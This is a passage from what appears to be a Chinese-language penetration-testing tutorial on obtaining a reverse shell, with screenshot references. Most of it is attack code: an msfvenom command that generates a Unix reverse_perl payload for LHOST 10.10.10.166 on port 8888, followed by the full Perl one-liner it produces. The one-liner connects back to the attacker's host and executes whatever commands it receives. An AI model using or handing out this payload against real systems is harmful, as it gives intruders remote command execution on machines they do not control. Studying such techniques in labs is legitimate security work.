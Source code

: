 监听连接如下：


![](/img/hack/tty_shell/nc_connect_unix_cmd_netcat.png)

**在没有netcat的情况下，使用perl生成反向连接：**

```bash
msfvenom -p cmd/unix/reverse_perl LHOST=10.10.10.166 LPORT=8888 R
```

生成结果如下：

```bash
perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"10.10.10.166:8888");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
```

![](/img/hack/tty_shell/reverse_perl_r.png)